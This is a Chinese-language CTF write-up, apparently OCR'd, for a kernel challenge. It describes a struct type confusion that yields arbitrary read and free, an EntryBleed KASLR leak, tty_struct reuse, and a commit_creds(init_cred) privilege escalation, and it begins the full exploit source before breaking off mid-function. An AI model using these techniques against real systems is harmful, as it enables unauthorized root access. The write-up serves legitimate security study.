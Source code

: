 `mmsg_head` 的类型为 `struct mmsg_head` 并不是 `struct mmsg`，这里发生了类型混淆。两种类型中 `list_head` 字段所在的偏移是相同的，指定了 `arg.top` 你就可以将 `mmsg_head` 当成一个 `mmsg` 进行操作。

```c
struct mmsg_head {
        char description[16];
        struct list_head list;
};

struct mmsg {
        unsigned int token;
        int size;
        char *data;
        struct list_head list;
};
```

`mmsg_head` 的前16字节是可以任意读取更改的，而在 `mmsg` 中前16字节有 `size` 和 `data` 两个重要字段。

分析整个程序的功能可以知道创建的 `mmsg` 在加入链表后，`data` 就不能再次修改了，但是可以读取、释放和替换更新。于是，通过修改 `mmsg_head->description` 类型混淆到 `mmsg` 可以实现任意地址读取和释放。

那么如何泄漏地址呢？预期设计是通过侧信道获取，即[EntryBleed](https://www.willsroot.io/2022/12/entrybleed.html)。这种利用方法在前一段时间的SCTF中是出现过的。

在这之后我们需要寻找一个堆地址，它必须属于我们已知的结构体，即通过用户态的系统调用在内核中分配的。有了任意地址读之后这点其实不难做到，`task_struct` 中有一个 `files` 字段类型为 `struct files_struct`，其中有个 `struct file *` 数组 `fd_array[64]` ，它维护了进程打开的文件。每个`file`的 `private_data` 字段可能会被用于指向内核分配的结构体，例如 `seq_file` 。这样，打开一个文件，寻找当前进程的`task_struct`，就可以得到满足条件的内核堆地址。

笔者选择了`tty_struct`，释放它，接着通过`MMSG_ADD`堆喷同样大小的对象，修改ops即可劫持控制流。笔者将`ioctl`修改为 `work_for_cpu_fn` 执行 `commit_creds(init_cred)`。具体的利用方法网上有很多师傅介绍的都很详细，这里不再赘述。

完整EXP:

```c
#include <fcntl.h>
#include <netinet/in.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/prctl.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <unistd.h>

#define KERNEL_LOWER_BOUND 0xffffffff80000000ull
#define KERNEL_UPPER_BOUND 0xffffffffc0000000ull
#define entry_SYSCALL_64_offset 0xc00000ull

uint64_t sidechannel(uint64_t addr) {
    uint64_t a, b, c, d;
    asm volatile(".intel_syntax noprefix;"
                 "mfence;"
                 "rdtscp;"
                 "mov %0, rax;"
                 "mov %1, rdx;"
                 "xor rax, rax;"
                 "lfence;"
                 "prefetchnta qword ptr [%4];"
                 "prefetcht2 qword ptr [%4];"
                 "xor rax, rax;"
                 "lfence;"
                 "rdtscp;"
                 "mov %2, rax;"
                 "mov %3, rdx;"
                 "mfence;"
```